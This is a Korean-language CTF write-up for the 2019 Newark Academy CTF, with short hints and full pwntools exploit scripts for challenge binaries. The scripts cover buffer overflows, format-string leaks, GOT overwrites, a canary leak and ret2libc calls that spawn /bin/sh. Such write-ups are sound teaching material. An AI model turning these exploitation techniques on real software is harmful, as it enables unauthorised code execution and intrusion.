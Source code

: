 ```yaml
---
title: "2019 Newark Academy CTF Writeup"
date: 2019-9-23
tags: [NaCTF]
categories: [CTF]
---
```


# BufferOverflow #0

리턴값만 덮어주면 된다.

```python
from pwn import *

p = remote('shell.2019.nactf.com',31475) 
payload = ''
payload += 'A'*28
payload += p32(0x080491c2)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# BufferOverflow #1

리턴값만 덮어주면 된다.

```python
from pwn import *
 
p = remote('shell.2019.nactf.com',31462)
payload = ''
payload += 'A'*28
payload += p32(0x080491b2)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# BufferOverflow #2

인자로 들어가는 a1이 long long int라 p64로 값 맞춰주면 된다. 

```python
from pwn import *
 
context.log_level = "debug"
p = remote('shell.2019.nactf.com',31184)
e = ELF('./bufover-2')
win = 0x080491c2
payload = 'A'*28
payload += p32(e.sym.win)
payload += 'AAAA'
payload += p64(0x14B4DA55)
payload += p32(0xF00DB4BE)
p.sendlineafter('>',payload)
p.interactive()
```

<br />

# Format #0

그냥 printf 포맷스트링 버그 터지는데 Leak해주면 풀린다.

```python
from pwn import *
 
for i in range(30):
    p = remote('shell.2019.nactf.com',31782)
    payload = '%' + str(i) + '$s'
    sleep(1)
    p.sendlineafter('>',payload)
    ex = p.recv(1024)
    if 'nactf' in ex:
        print ex
        p.close()
        exit(0)
    p.close()
p.interactive()
```

<br />

# Format #1

fmtstr_payload로 printf got 주소를 win으로 바꿔주면 printf 함수 실행할때 win함수가 실행되서 풀릴 것이다.

```python
from pwn import *
 
p = remote('shell.2019.nactf.com',31560)
e = ELF('./format-1')
 
payload = fmtstr_payload(4,{e.got['printf']:e.symbols['win']})
p.sendlineafter('>',payload) 
p.interactive()
```

<br />

# Loopy#0

그냥 fsb로 leak해주고 RTL해주면 된다.

```python
from pwn import *
 
context.arch='i386'
e = ELF('loopy-0')
libc = ELF('./libc.so.6')
p = remote('shell.2019.nactf.com',31283)
 
popret = 0x0804901e # pop ebx ; ret
payload = p32(e.got['printf']) + '%4$s'
payload += 'A'*(0x48+4-8)
payload += p32(e.symbols['vuln']) # ret
p.sendlineafter('>',payload)
p.recvuntil(': ')
p.recv(4)
printf = u32(p.recv(4))
log.info('printf : ' + hex(printf))
libc_base = printf - libc.symbols['printf']
log.info('libc_base : ' + hex(libc_base))
 
payload2 = 'A'*(0x48+4)
payload2 += p32(libc_base + libc.symbols['system'])
payload2 += 'AAAA'
payload2 += p32(libc_base + libc.search('/bin/sh').next())
p.sendlineafter('>',payload2)
 
p.interactive()
```

<br />

# Loopy #1

Canary 걸려잇어서 stack_chk_fail GOT를 start로 바꾸고 Leak해주면서 Canary도 Leak해주고 Canary 잘 맞춰주고 페이로드 짜면 된다.

```python
from pwn import *
 
# context.log_level = 'debug'
e = ELF('./loopy-1')
libc = ELF('./libc.so.6')
p = remote('shell.2019.nactf.com',31732)
 
__stack_chk_fail = 0x0804C014 # got
_start = 0x08049090
 
payload = fmtstr_payload(7,{__stack_chk_fail:_start})
payload += 'A'*100
p.sendlineafter('>',payload)
 
payload2 = p32(e.got['printf']) + '%7$s'
payload2 += 'A'*100
p.sendlineafter('>',payload2)
 
p.recvuntil(': ')
p.recv(4)
libc_base = u32(p.recv(4)) - libc.symbols['printf']
log.info('libc_base : ' + hex(libc_base))
system = libc_base + libc.symbols['system']
binsh = libc_base + libc.search('/bin/sh\x00').next()
 
payload3 = '%31$p'
payload3 += 'A'*62
p.sendlineafter('>',payload3)
 
p.recvuntil(': ')
canary = int(p.recv(10),16)
log.info('canary : ' + hex(canary))
 
payload4 = 'A'*64
payload4 += p32(canary)
payload4 += 'A'*12
payload4 += p32(system)
payload4 += p32(system)
payload4 += p32(binsh)
p.sendlineafter('>',payload4)
 
p.interactive()
```

